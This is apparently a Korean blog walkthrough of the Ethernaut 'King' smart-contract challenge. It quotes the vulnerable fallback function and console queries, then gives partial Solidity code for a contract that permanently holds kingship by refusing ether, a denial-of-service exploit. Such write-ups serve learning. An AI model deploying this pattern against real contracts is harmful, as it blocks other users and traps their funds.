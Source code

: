 
{% highlight javascript %}
function() external payable {
    require(msg.value >= prize || msg.sender == owner);
    king.transfer(msg.value);
    king = msg.sender;
    prize = msg.value;
}
{% endhighlight %}

그런데 현재 prize 값보다 큰 이더를 보내서 king이 된다해도 owner 계정은 여전히 king을 되찾을 수 있도록 되어 있고 또 이전 prize보다 높은 이더를 전송하는 계정은
언제든지 새로운 king이 될 수 있습니다. 이 문제의 목표는 다음과 같습니다.

> Such a fun game. Your goal is to break it.

즉 이러한 "계약"이 정상적으로 동작하지 않도록 해야 합니다. 현재 컨트랙트의 prize 값을 조회해보겠습니다.

{% highlight html %}
a = await contract.prize()
t {s: 1, e: 18, c: Array(1)}
fromWei(a.toNumber())
"1"
{% endhighlight %}

현재 king 계정을 조회합니다. 이더를 얼마나 가지고 있을까요?

{% highlight html %}
await contract.king()
"0x32d25a51c4690960f1d18fadfa98111f71de5fa7"

await getBalance("0x32d25a51c4690960f1d18fadfa98111f71de5fa7")
"785.9242373303112"

{% endhighlight %}


⚠️문제 오류?

그냥 현재 prize 값 1 이더보다 크거나 같은 값을 전송하여 king이 바뀌면서 패스됩니다. 😅

그러나 원래 이 문제가 의도했던 것은 이 컨트랙트가 제대로 동작하지 않도록 하는 것입니다. 일단 다른 컨트랙트를 만든 후 1 이더 이상을 전송하면서
King 컨트랙트의 폴백 함수를 호출합니다. 당연히 조건에 의해서 king이 바뀌게 되는데, 핵심은 이 컨트랙트의 폴백 함수를 의도적으로 구현하지 않습니다.
그렇게 하면 다음에 owner 계정이나 prize 값보다 더 많은 이더를 전송하더라도 `king.transfer(msg.value)`에서 오류가 발생하면서 롤백이 될 것입니다.
결국 king이 바뀌지 않게 되고 현재 king은 "forever" king으로 남게 되는 것입니다.

주의할 점은 컨트랙트가 이더를 소유해야 하기 때문에 초기 이더를 받을 수 있도록 생성자를 payable로 만들어야 한다는 점입니다(payable 폴백 함수를 만들면 안됩니다).

{% highlight javascript %}
pragma solidity ^0.4.25;

contract ForeverKing {

    address public owner;
    King public king;

    constructor(address _addr) public payable {
        owner = msg.sender;
        king = King(_addr);
    }

    modifier onlyOwner {
        require (msg.sender == owner, "Only owner can call this function.");
        _;
    }

    function getOwnership() external onlyOwner {
        uint val = 1 ether;
        bool bOk = address(king).call.value(val).gas(3000000)();
        if (!bOk) {
            revert();
        }
    }